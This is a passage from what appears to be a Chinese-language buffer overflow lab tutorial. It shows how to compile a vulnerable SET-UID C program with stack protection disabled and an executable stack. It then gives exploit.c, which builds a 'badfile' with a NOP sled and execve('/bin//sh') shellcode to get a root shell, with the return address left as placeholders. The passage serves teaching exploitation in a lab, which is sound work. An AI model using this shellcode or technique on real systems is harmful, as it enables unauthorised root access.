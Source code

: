 通过代码可以知道，程序会读取一个名为“badfile”的文件，并将文件内容装入“buffer”。

编译该程序，并设置 SET-UID。命令如下：

```
sudo su

gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

chmod u+s stack

exit 
```

GCC 编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。

而 -z execstack 用于允许执行栈。

### 3.4 攻击程序

我们的目的是攻击刚才的漏洞程序，并通过攻击获得 root 权限。

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=

"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;

/* Initialize buffer with 0x90 (NOP instruction) */
memset(&buffer, 0x90, 517);

/* You need to fill the buffer with appropriate contents here */
strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");
strcpy(buffer+100,shellcode);

/* Save the contents to the file "badfile" */
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
} 
```
